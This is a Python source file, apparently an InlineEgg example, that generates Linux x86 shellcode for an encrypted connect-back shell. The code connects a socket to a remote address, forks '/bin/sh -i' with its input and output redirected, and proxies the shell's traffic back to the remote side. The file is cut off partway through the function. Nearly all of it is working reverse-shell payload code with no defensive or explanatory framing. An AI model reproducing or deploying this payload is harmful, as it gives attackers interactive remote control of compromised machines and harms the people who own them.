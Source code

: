 from inlineegg.inlineegg import *
import socket
import struct
import sys

def connectEncryptedShellEgg(connect_addr, connect_port):

   BUFSIZE = 1024

#   egg = InlineEgg(FreeBSDx86Syscall)
#   egg = InlineEgg(OpenBSDx86Syscall)
   egg = InlineEgg(Linuxx86Syscall)
     
   # connect to other side
   sock = egg.socket(socket.AF_INET,socket.SOCK_STREAM)
   sock = egg.save(sock)
   egg.connect(sock,(connect_addr, connect_port))

   # setup communication with child
   egg.close(0)                                  # close(0) so next opened fd is 0
   fds = egg.alloc(8)
   child_fd = fds+4
   egg.socketpair(socket.AF_UNIX, socket.SOCK_STREAM, 0, fds.addr())
   egg.dup2(0,1)                                 # as 0 was closed, we assume socketpair() returns 0 and something
   egg.dup2(0,2)
   egg.fork()

   # fork shell
   child = egg.If('eax','=',0)
   child.close(child_fd)
   child.execve('/bin/sh',('sh','-i',0))
   child.end()

   # proxy from child process to remote peer
   buff  = egg.alloc(BUFSIZE)
   infd  = 'esi'
   outfd = 'edi'

   # move fds to registers
   egg += egg.micro.set(infd, sock)
   egg += egg.micro.set(outfd, child_fd)

   # swap registers in one of the childred (so one encrypts and the other decripts)
   enc_pid = egg.fork()
   enc_pid = egg.save(enc_pid)
   child = egg.If('eax','=',0)
   child += '\x87\xf7'                           # xchg %esi, %edi
   child.end()
